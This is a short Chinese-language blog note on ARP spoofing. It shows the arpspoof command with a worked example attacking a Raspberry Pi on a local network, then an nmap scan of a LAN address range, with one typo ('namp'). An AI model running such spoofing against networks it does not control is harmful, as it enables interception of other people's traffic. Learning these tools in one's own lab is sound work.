 ```yaml
---
title: 'arp欺骗'
date: 2022-09-03 23:40:58
tags: [Linux]
published: true
hideInList: false
feature: 
isTop: false
---
```

# 命令

```shell
$ arpspoof -i <网卡名> -t <目标ip> <网关ip>
如 我要攻击树莓派:
$ arpspoof -i eth0 -t 192.168.1.5 192.168.1.1
```

# 获取局域网内其他ip

```shell
$ namp <局域网段>
如:
$ nmap 192.168.1.5-11
```